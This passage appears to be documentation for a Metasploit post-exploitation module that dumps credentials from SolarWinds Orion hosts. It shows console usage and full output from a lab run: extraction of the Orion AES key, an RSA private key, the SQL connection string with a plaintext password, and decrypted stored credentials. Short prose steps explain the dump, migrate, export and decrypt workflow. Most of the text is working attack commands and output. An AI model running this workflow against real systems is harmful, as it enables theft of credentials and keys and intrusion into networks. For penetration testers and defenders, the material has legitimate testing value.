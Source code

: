 ```
[*] Extract SolarWinds Orion SSL Certificate Private Key ...
[+] Compressed size: 1344
[+] Compressed size: 1736
[+] Extracted SolarWinds Orion RSA private key for LocalMachine certificate with SHA1 thumbprint C3D5248B978C8D161DA0267C1DE946B1FDE4E7D2
[+] SolarWinds Orion RSA Key: /root/.msf4/loot/20221118093908_default_192.168.101.125_orionssl_000289.key
[*] Decrypt SWNetPerfMon.DB ...
[+] Compressed size: 2064
[+] SolarWinds Orion SQL Database Connection Configuration:
[+]     Instance Name: tcp:cornflakes.cesium137.io
[+]     Database Name: SolarWindsOrion
[+]     Database User: orion
[+]     Database Pass: 3qmEixYNZsElaE0JR0vt9c1NwO
[*] Performing export of SolarWinds Orion SQL database to CSV file
[*] Export SolarWinds Orion DB ...
[+] 10 rows exported, 6 unique CredentialIDs
[+] Encrypted SolarWinds Orion Database Dump: /root/.msf4/loot/20221118093912_default_192.168.101.125_solarwinds_orion_822163.txt
[*] Performing decryption of SolarWinds Orion SQL database
[+] 10 rows loaded, 6 unique CredentialIDs
[*] Process SolarWinds Orion DB ...
[+] 10 rows processed
[*] 10 rows recovered: 6 plaintext, 4 decrypted (0 blank)
[*] 10 rows written (0 blank rows withheld)
[+] 6 unique CredentialID records recovered
[+] Decrypted SolarWinds Orion Database Dump: /root/.msf4/loot/20221118093912_default_192.168.101.125_solarwinds_orion_067745.txt
[*] Post module execution completed
msf6 post(windows/gather/credentials/solarwinds_orion_dump) >
```

Host with MSSQL SSPI authentication configured for external database - use `dump` to
extract keys, then migrate the session PID to an identity with permission to log on to
the SQL server. Perform `export` to acquire the encrypted data, then perform `decrypt`
to produce the plaintext:

```
msf6 exploit(multi/handler) > use post/windows/gather/credentials/solarwinds_orion_dump
msf6 post(windows/gather/credentials/solarwinds_orion_dump) > set session 1
session => 1
msf6 post(windows/gather/credentials/solarwinds_orion_dump) > dump

[*] Hostname WINNING IPv4 192.168.101.125
[*] SolarWinds Orion Build 2020.2.65120.0
[*] SolarWinds Orion Install Path: C:\Program Files (x86)\SolarWinds\Orion\
[*] Init SolarWinds Crypto ...
[*] Decrypt SolarWinds CryptoHelper Keystorage ...
[+] Compressed size: 2108
[+] Orion AES Encryption Key
[+]     HEX: 2F627B78981DEADE0447CC7BDDEADE4E84FCB96AF1C6DEAD621F28547E93A82
[*] Extract SolarWinds Orion SSL Certificate Private Key ...
[+] Compressed size: 1344
[+] Compressed size: 1748
[+] Extracted SolarWinds Orion RSA private key for LocalMachine certificate with SHA1 thumbprint C3D5248B978C8D161DA0267C1DE946B1FDE4E7D2
[+] SolarWinds Orion RSA Key: /root/.msf4/loot/20221118091221_default_192.168.101.125_orionssl_457287.key
[*] Decrypt SWNetPerfMon.DB ...
[+] SolarWinds Orion SQL Database Connection Configuration:
[+]     Instance Name: tcp:cornflakes.cesium137.io
[+]     Database Name: SolarWindsOrion
[+]     Database User: (Windows Integrated)
[!] The database uses Windows authentication
```